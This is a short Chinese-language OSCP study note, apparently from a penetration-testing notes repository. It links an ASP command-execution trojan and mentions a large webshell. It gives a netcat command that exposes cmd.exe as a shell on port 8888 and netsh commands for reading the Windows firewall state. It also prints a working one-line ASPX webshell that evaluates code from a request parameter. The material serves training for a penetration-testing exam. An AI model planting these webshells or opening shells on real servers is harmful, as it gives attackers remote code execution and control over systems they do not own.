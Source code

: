 - 一个 ASP 的木马，用于执行系统命令：[aspcmd.asp](https://github.com/isecurityplus/OSCP/blob/master/ASP-reverse-shell/aspcmd.asp)(或asp.cmd.aspx)

> 遇到的一个坑：`.asp` 无法运行，系统会报 500 错误，修改为`.aspx` 后绕过限制(~OSCP 10.11.1.13)

- 超强 webshell 大马-bigshell.aspx

# Windows 利用 nc 反弹 shell
```
nc -lvp 8888 -e c:\windows\system32\cmd.exe 
```
查看防火墙状态：
```
netsh firewall show state
```
```
netsh advfirewall firewall show rule name=all dir=in type=dynamic
```
# ASPX 一句话木马
```
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
```
# Windows vs Linux Command
![](https://i.loli.net/2020/05/06/JS1sNIZLQTxURBD.png)
